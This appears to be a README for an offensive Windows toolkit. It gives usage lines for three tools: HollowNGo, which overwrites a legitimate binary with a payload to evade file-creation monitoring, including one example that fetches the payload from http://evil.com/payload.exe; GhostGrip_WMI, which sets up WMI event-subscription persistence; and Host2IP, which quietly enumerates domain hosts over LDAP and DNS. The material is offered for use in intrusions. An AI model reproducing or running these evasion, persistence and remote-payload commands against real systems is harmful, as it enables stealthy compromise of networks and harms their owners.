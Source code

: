 HollowNGo aims to avoid FileCreation Events by reading your payload as a byte array, compressing them, and converting the compressed bytes to base64 to a memorysteam. setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. There are a few options when running the tool as shown below.

Create compressed encoded binary data (This is expected to run on your dev box not the target)
HollowNGo.exe -encode <source.exe> -output <output.txt>
Example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

Via data output from -encode option
HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

Via remote hosted file
Usage: UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe



GhostGrip_WMI creates a WMIEventSubscription for your prefered event for persistence and execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

Usage: GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false



Host2IP aims to be a little less noisy than SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to get a list of hostnames, which are then resolved via DNS, achieved via slow/fast mode to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

Usage: Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
Example: dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
Example: dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!

